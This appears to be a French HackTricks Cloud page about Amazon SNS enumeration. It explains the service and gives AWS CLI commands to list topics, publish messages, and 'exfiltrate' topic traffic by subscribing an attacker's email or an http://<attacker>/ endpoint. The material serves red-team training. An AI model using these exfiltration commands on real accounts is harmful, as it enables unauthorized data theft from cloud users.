 # AWS - SNS Enum

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) est décrit comme un **service de messagerie entièrement géré**. Il prend en charge à la fois les types de communication **application-à-application** (A2A) et **application-à-personne** (A2P).

Les fonctionnalités clés pour la communication A2A incluent des **mécanismes de publication/abonnement (pub/sub)**. Ces mécanismes introduisent des **sujets**, cruciaux pour permettre une messagerie **push basée sur un haut débit et de nombreux à de nombreux**. Cette fonctionnalité est très avantageuse dans les scénarios impliquant des systèmes distribués, des microservices et des architectures sans serveur basées sur des événements. En tirant parti de ces sujets, les systèmes de publication peuvent distribuer efficacement des messages à un **large éventail de systèmes abonnés**, facilitant un modèle de messagerie en éventail.

### **Différence avec SQS**

**SQS** est un service **basé sur des files d'attente** qui permet une communication point à point, garantissant que les messages sont traités par un **unique consommateur**. Il offre une **livraison au moins une fois**, prend en charge les files d'attente standard et FIFO, et permet la conservation des messages pour des réessais et un traitement différé.\
D'autre part, **SNS** est un service **basé sur la publication/abonnement**, permettant une communication **un-à-plusieurs** en diffusant des messages à **plusieurs abonnés** simultanément. Il prend en charge **divers points de terminaison d'abonnement comme l'email, le SMS, les fonctions Lambda et HTTP/HTTPS**, et fournit des mécanismes de filtrage pour une livraison ciblée des messages.\
Bien que les deux services permettent le découplage entre les composants dans des systèmes distribués, SQS se concentre sur la communication en file d'attente, tandis que SNS met l'accent sur des modèles de communication basés sur des événements et en éventail.

### **Énumération**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Notez que si le **sujet est de type FIFO**, seuls les abonnés utilisant le protocole **SQS** peuvent être utilisés (HTTP ou HTTPS ne peuvent pas être utilisés).

De plus, même si le `--topic-arn` contient la région, assurez-vous de spécifier la bonne région dans **`--region`** ou vous obtiendrez une erreur qui ressemble à celle indiquant que vous n'avez pas accès, mais le problème est la région.
{% endhint %}

#### Accès non authentifié

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Escalade de privilèges

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Post-exploitation

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Persistance

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Références

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
